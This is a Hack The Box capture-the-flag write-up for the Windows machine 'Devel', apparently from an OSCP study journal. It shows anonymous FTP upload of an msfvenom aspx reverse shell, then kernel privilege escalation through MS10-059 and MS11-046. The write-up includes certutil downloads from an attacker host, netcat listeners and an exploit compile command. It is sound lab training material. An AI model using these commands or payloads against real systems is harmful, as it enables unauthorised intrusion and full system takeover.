

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/devel-easy
---

# ✅ Devel (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Misconfiguration of FTP Service and System version out of dated

**System Vulnerable:** 10.10.10.5

**Vulnerability Explanation:** The machine misconfigure on ftp service which could allow anonymous login and it's the root directory of web server which we could upload payload and execute through webpage and we gain initial foothold on the machine.

**Privilege Escalation Vulnerability:** Window Kernel vulnerable to privilege escalation

**Vulnerability Fix:** It recommended to disable ftp anonymous login. Update and apply patch to the system when the vulnerable publicly disclose and security updated available.

**Severity:** Critical

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.5 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 08:01 EDT
Nmap scan report for 10.10.10.5
Host is up (0.044s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

**Port 21 FTP**&#x20;

We see the ftp service open with allow anonymous login. Let start login with username anonymous and password can type any. There is nothing interesting.

.png>)

**Port 80 HTTP Microsoft-IIS/7.5**

By going through port 80, we just see default webpage of IIS. Viewing the source code, we see the image file **"welcome.png"** which we have seen in ftp service.&#x20;

For **.asp** which is **VB Script** Base (Window 2003 below) and **.aspx** which is **.NET** Base (2008 >)&#x20;

.png>)

.png>)

Let start upload simple file for testing whether we can upload through ftp service and execute on the webpage.

```
└─$ echo "testing" > test.txt                    
```

We can upload file "test.txt" to ftp service. Let start execute that file through webpage.&#x20;

.png>)

.png>)

## Exploitation

For IIS Microsoft framework, it supports extension asp or aspx. Let generate reverse shell payload with aspx extension.

```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2715 bytes
```

Let upload it to ftp service and start netcat listener on port 4444.

```
nc -lvp 4444
```

We can execute our shell payload through webpage. We are now on the machine.

```
http://10.10.10.5/shell.aspx
```

.png>)

## #1 Priv-Esc (MS10-059)

Let start enumerating on system information first. Because it seem like old machine. As we can see this machine is running **Microsoft Windows 7 Enterprise (x86) and No Hotfix install**.

```
c:\Users\Public>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          3/11/2021, 2:00:20 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.479 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.546 MB
Virtual Memory: In Use:    595 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::1fc

```

Once, we are onto the machine, let start enumerating on systeminfo. We can save the information of the system and check for any vulnerable with **window-exploit-suggester.py.**

```
└─$ python ~/transfer/Win-Tools/windows-exploit-suggester.py -    
usage: windows-exploit-suggester.py [-h] [-v] [-i SYSTEMINFO] [-d DATABASE]
                                    [-u] [-a] [-t TRACE] [-p PATCHES]
                                    [-o OSTEXT] [-s] [-2] [-q] [-H HOTFIXES]
                                    [-r | -l]
windows-exploit-suggester.py: error: argument -d/--database: expected one argument
```

First, we need to generate the new database and systeminfo as **systeminfo.txt**.

```
└─$ python ~/transfer/Win-Tools/windows-exploit-suggester.py --update                                                                                                   2 ⨯
[*] initiating winsploit version 3.3...
[+] writing to file 2021-11-03-mssb.xls
[*] done
```

Let start check if there is any vulnerable that we can escalate our privilege. There are a lot of vulnerable which we could exploit.&#x20;

The output shows either **public exploits (E)**, or **Metasploit modules (M)** as indicated by the character value.

```
└─$ python ~/transfer/Win-Tools/windows-exploit-suggester.py -d 2021-11-03-mssb.xls -i systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

Let start with **MS10-059**. We can search for public exploit. We will use the one from [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).

Start up python http server on kali machine.

```
python3 -m http.server 80
```

I just enumerate on the system with [icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) and **user Public** we have full access. On the remote machine we can use **certutil** to grab the file from our machine.&#x20;

```
c:\Users>icacls Public
icacls Public
Public BUILTIN\Administrators:(OI)(CI)(F)
       CREATOR OWNER:(OI)(CI)(IO)(F)
       NT AUTHORITY\SYSTEM:(OI)(CI)(F)
       NT AUTHORITY\INTERACTIVE:(OI)(CI)(IO)(M,DC)
       NT AUTHORITY\INTERACTIVE:(RX,WD,AD)
       NT AUTHORITY\SERVICE:(OI)(CI)(IO)(M,DC)
       NT AUTHORITY\SERVICE:(RX,WD,AD)
       NT AUTHORITY\BATCH:(OI)(CI)(IO)(M,DC)
       NT AUTHORITY\BATCH:(RX,WD,AD)
       Everyone:(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

```
c:\Users\Public>certutil -f -urlcache http://10.10.14.31/MS10-059.exe C:\Users\Public\MS10-059.exe
certutil -f -urlcache http://10.10.14.31/MS10-059.exe C:\Users\Public\MS10-059.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Let start our netcat listener on port 4444. &#x20;

```
nc -lvp 4444
```

Now, we can execute the exploit file and point it to our IP and Port we are listening on.

```
c:\Users\Public>MS10-059.exe 10.10.14.31 4444 
MS10-059.exe 10.10.14.31 4444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

.png>)

## #2 Priv-Esc (M11-046)

We can run systeminfo to check architecture of the system. The machine is running Window 7 Enterprise and there is no patch apply.

.png>)

Proof of concept Code: [https://www.exploit-db.com/exploits/40564](https://www.exploit-db.com/exploits/40564)

```
# Vulnerability description:
#   The Ancillary Function Driver (AFD) supports Windows sockets 
#   applications and is contained in the afd.sys file. The afd.sys
#   driver runs in kernel mode and manages the Winsock TCP/IP
#   communications protocol. 
#   An elevation of privilege vulnerability exists where the AFD
#   improperly validates input passed from user mode to the kernel.
#   An attacker must have valid logon credentials and be able to
#   log on locally to exploit the vulnerability.
#   An attacker who successfully exploited this vulnerability could
#   run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM
#   privileges).
################################################################
# Exploit notes:
#   Privileged shell execution:
#     - the SYSTEM shell will spawn within the invoking shell/process
#   Exploit compiling (Kali GNU/Linux Rolling 64-bit):
#     - # i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
#   Exploit prerequisites:
#     - low privilege access to the target OS
#     - target OS not patched (KB2503665, or any other related
#       patch, if applicable, not installed - check "Related security
#       vulnerabilities/patches")
#   Exploit test notes:
#     - let the target OS boot properly (if applicable)
#     - Windows 7 (SP0 and SP1) will BSOD on shutdown/reset
```

Let compile the payload:

```
└─$ i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Let startup smb-server and share current folder for our victim to access.

```
└─$ impacket-smbserver share .
Impacket v0.9.24.dev1+20210706.140217.6da655ca - Copyright 2021 SecureAuth Corporation
[] Config file parsed 
[] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0 
[] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 
[] Config file parsed 
[] Config file parsed 
[] Config file parsed
```

On our victim machine, connect to our kali share and execute the payload. We are now root.

.png>)
